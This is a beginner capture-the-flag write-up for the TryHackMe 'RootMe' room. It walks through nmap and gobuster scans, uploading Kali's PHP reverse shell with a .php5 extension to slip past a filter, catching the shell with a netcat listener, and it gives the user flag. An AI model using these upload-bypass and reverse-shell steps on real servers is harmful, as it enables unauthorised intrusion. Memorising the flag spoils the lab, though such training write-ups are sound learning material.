# [RootMe](https://tryhackme.com/room/rrootme)

> A ctf for beginners, can you root me?

## Scanning

Scan ports using nmap

```
nmap -A -T4 10.10.124.205
```

![image](https://user-images.githubusercontent.com/90561566/185150824-10d60d8a-863d-4d46-a0cc-e73a1b4a6564.png)

We found 2 open ports 22 (ssh) and 80 (http)

## HTTP

Go to web page and view source, nothing here

![image](https://user-images.githubusercontent.com/90561566/185151799-787cf8d6-0181-4108-9e5f-5f58c40a78f1.png)

## Enumeration

We use gobuster to enummerate directory on web server

```
gobuster dir -u http://10.10.124.205/ -w /usr/share/wordlists/dirb/common.txt -t 30
```

![image](https://user-images.githubusercontent.com/90561566/185151165-ba637adf-7163-411b-82a3-c5cb4b55b00b.png)

we can see hidden directory called /panel/

we access to /panel/ directory and see a page like this

![image](https://user-images.githubusercontent.com/90561566/185151923-c2a7b30c-c64b-4fe0-8055-71d086bed059.png)

## Exploitation

This step requires us to upload a webshell, in Kali has one `/usr/share/webshells/php/php-reverse-shell.php`

```
cp /usr/share/webshells/php/php-reverse-shell.php reverse.php
vi reverse.php
```

![image](https://user-images.githubusercontent.com/90561566/185154118-fc350cae-82f7-44a5-be22-ee66845e1802.png)

at line 49,50 change ip to your machine and port is 4444 (you can choose another)

Let's upload it to the panel

![image](https://user-images.githubusercontent.com/90561566/185154791-fa36b086-3be3-4900-906d-03a5b7db3281.png)

Looks like the exploit is being declined, let search `file upload bypass php`

So we can change its extension to .phtml, .php, .php3, .php4, .php5, and .inc

```
mv reverse.php reverse.php5
```

![image](https://user-images.githubusercontent.com/90561566/185155614-a2186136-88f5-448c-9f33-9fe636f9672c.png)

the trick has successful

![image](https://user-images.githubusercontent.com/90561566/185155819-cecf03bd-22d5-4a76-a40a-f502177bb659.png)

Now we need to setup netcat on our machine to listen reverse shell

```
nc -lnvp 4444
```

back to gobuster output, go to /uploads/ directory

![image](https://user-images.githubusercontent.com/90561566/185156529-ba2b2f5e-42f9-4837-bfe6-41e9d8a6a3d9.png)

open it and go back the netcat

![image](https://user-images.githubusercontent.com/90561566/185157240-b2555a36-83a8-4a42-8454-f1ef8a2b68c2.png)

![image](https://user-images.githubusercontent.com/90561566/185157418-b272cbbb-fc87-4e00-b61f-c3a0b22f32d0.png)

the answer on this location

![image](https://user-images.githubusercontent.com/90561566/185158854-16fa3345-3891-4f22-af75-060564f2f28b.png)

| Flag | user.txt |
| --- | --- |
| Answer | THM{y0u_g0t_a_sh3ll} |





